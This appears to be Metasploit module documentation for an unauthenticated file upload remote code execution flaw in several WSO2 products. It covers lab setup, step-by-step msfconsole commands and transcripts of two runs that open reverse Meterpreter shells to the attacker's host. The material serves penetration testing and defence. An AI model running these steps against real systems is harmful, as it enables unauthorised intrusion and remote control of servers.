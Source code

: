 ## Vulnerable Application

Certain WSO2 products allow unrestricted file upload with resultant remote code execution. This affects WSO2 API Manager
2.2.0 and above through 4.0.0; WSO2 Identity Server 5.2.0 and above through 5.11.0; WSO2 Identity Server Analytics
5.4.0, 5.4.1, 5.5.0, and 5.6.0; WSO2 Identity Server as Key Manager 5.3.0 and above through 5.10.0; and WSO2 Enterprise 
Integrator 6.2.0 and above through 6.6.0.

Download WSO2 API Manager [4.0.0](https://wso2.com/api-management/previous-releases/) or another
version < 4.1.0 from the same link.

Download and install [JDK 1.8](https://www.oracle.com/ca-en/java/technologies/javase/javase8u211-later-archive-downloads.html) 
and set `$JAVA_HOME` in your environment.

Start the vulnerable application with `./wso2am-4.0.0/bin/api-manager.sh`. More information on target setup can be found
[here](https://apim.docs.wso2.com/en/latest/install-and-setup/install-and-setup-overview/).

## Verification Steps

1. Install the application
1. Start msfconsole
1. Do: `use multi/http/wso2_file_upload_rce`
1. Do: `set rhosts [ip]`
1. Do: `set lhost [ip]`
1. Do: `run`
1. You should get a shell.

## Scenarios

### WSO2 API Manager 4.0.0 on Ubuntu 20.04.1

```
msf > use multi/http/wso2_file_upload_rce
[*] Using configured payload java/meterpreter/reverse_tcp
msf exploit(multi/http/wso2_file_upload_rce) > set rhosts 172.16.199.173
rhosts => 172.16.199.173
msf exploit(multi/http/wso2_file_upload_rce) > set lhost 172.16.199.1
lhost => 172.16.199.1
msf exploit(multi/http/wso2_file_upload_rce) > check
[*] 172.16.199.173:9443 - The target appears to be vulnerable.
msf exploit(multi/http/wso2_file_upload_rce) > run

[*] Started reverse TCP handler on 172.16.199.1:4444
[*] Preparing payload...
[*] Uploading payload...
[+] Payload uploaded successfully
[*] Executing payload...
[*] Waiting for shell... 
[*] Waiting for shell... 
[*] Waiting for shell... 
[*] Waiting for shell... 
[*] Sending stage (58851 bytes) to 172.16.199.173
[*] Meterpreter session 1 opened (172.16.199.1:4444 -> 172.16.199.173:34282 ) at 2022-04-26 10:58:31 -0700

meterpreter > getuid
Server username: msfuser
meterpreter > sysinfo
Computer        : ubuntu
OS              : Linux 5.13.0-40-generic (amd64)
Architecture    : x64
System Language : en_US
Meterpreter     : java/linux
```

### WSO2 API Manager 3.0.0 on Ubuntu 20.04.1
```
msf > use multi/http/wso2_file_upload_rce
msf exploit(multi/http/wso2_file_upload_rce) > set rhosts 172.16.199.173
rhosts => 172.16.199.173
msf exploit(multi/http/wso2_file_upload_rce) > set lhost 172.16.199.1
lhost => 172.16.199.1
msf exploit(multi/http/wso2_file_upload_rce) > check
[*] 172.16.199.173:9443 - The target appears to be vulnerable.
msf exploit(multi/http/wso2_file_upload_rce) > run

[*] Started reverse TCP handler on 172.16.199.1:4444
[*] Preparing payload...
[*] Uploading payload...
[+] Payload uploaded successfully
[*] Executing payload...
[*] Waiting for shell... 
[*] Waiting for shell... 
[*] Waiting for shell... 
[*] Waiting for shell... 
[*] Sending stage (58851 bytes) to 172.16.199.173
[*] Meterpreter session 1 opened (172.16.199.1:4444 -> 172.16.199.173:33564 ) at 2022-04-26 12:09:18 -0700

meterpreter > getuid
Server username: msfuser
meterpreter > sysinfo
Computer        : ubuntu
OS              : Linux 5.13.0-40-generic (amd64)
Architecture    : x64
System Language : en_US
Meterpreter     : java/linux
```
